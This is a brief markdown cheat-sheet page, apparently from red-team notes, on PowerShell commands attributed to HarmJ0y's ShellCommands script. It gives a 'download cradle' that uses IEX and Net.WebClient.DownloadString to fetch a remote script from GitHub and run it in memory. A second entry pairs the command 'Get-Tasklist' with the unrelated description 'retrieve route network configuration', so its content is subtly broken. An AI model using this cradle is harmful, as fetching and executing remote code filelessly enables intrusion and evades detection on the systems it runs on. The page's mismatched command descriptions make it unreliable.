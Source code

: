# HarmJ0y ShellCommands

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/Misc-PowerShell/master/ShellCommands.ps1')
```

Retrieve route network configuration.

```
PS C:\> Get-Tasklist
```

---
## References

- [HarmJ0y: ShellCommands](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/ShellCommands.ps1)